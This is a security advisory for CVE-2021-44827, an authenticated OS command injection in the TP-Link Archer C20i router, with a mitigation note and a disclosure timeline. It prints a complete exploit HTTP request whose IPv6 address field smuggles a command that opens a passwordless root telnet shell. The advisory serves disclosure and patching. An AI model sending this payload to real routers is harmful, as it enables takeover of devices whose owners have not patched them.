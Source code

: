 # CVE-2021-44827

# Summary

TP-Link router Archer C20i contains authenticated remote code execution vulnerability.


# Tech details

TP-Link router `Archer C20i` firmware version `0.9.1 3.2 v003a.0 Build 170221 Rel.55462` or older
is vulnerable to authenticated remote code execution by injecting an OS command into the network
interface configuration web request. Admin credentials are required to exploit it.


# Vulnerability

The vulnerable parameter is `X_TP_ExternalIPv6Address` and an example of an exploit may look like this:

<pre>
POST /cgi?2&2 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/mainFrame.htm
Content-Type: text/plain
Content-Length: 657
Origin: http://192.168.0.1
Connection: close
Cookie: Authorization=Basic YWRtaW46a2o4NzZmc2Q1NjI0ODk=

[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1
X_TP_lastUsedIntf=ipoe_eth3_s
[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21
externalIPAddress=192.168.9.222
subnetMask=255.255.255.0
defaultGateway=192.168.9.2
NATEnabled=1
X_TP_FullconeNATEnabled=0
X_TP_FirewallEnabled=1
X_TP_IGMPProxyEnabled=1
X_TP_IGMPForceVersion=0
maxMTUSize=1500
DNSOverrideAllowed=1
DNSServers=192.168.9.3,0.0.0.0
X_TP_IPv4Enabled=1
X_TP_IPv6Enabled=0
X_TP_IPv6AddressingType=Static
X_TP_ExternalIPv6Address=&telnetd -p 1024 -l sh&
X_TP_PrefixLength=64
X_TP_DefaultIPv6Gateway=::
X_TP_IPv6DNSOverrideAllowed=0
X_TP_IPv6DNSServers=::,::
X_TP_MLDProxyEnabled=0
enable=1
</pre>

This authenticated web request would start a `telnet` server on tcp port 1024 and allow root connection without a password.


# Proof-of-concept

A proof of concept python script is available in this repo:

[https://github.com/full-disclosure/CVE-2021-44827](https://github.com/full-disclosure/CVE-2021-44827)


# Update is available

To mitigate the issue please update to the latest available firmware from TP-Link:

[https://www.tp-link.com/en/support/download/archer-c20i/#Firmware](https://www.tp-link.com/en/support/download/archer-c20i/#Firmware)

Full Disclosure team recommends using routers that support `OpenWRT`.

# Timeline

<pre>
2021-12-08 - initial research
2021-12-09 - CVE-2021-44827 assigned
2021-12-13 - an exploit PoC sent to TP-Link
2021-12-21 - TP-Link confimed the issue
2022-01-18 - TP-Link releases a fixed firmware and asks to verify
2022-02-17 - TP-Link publishes the fixed firmware
2022-03-02 - full disclosure
</pre>
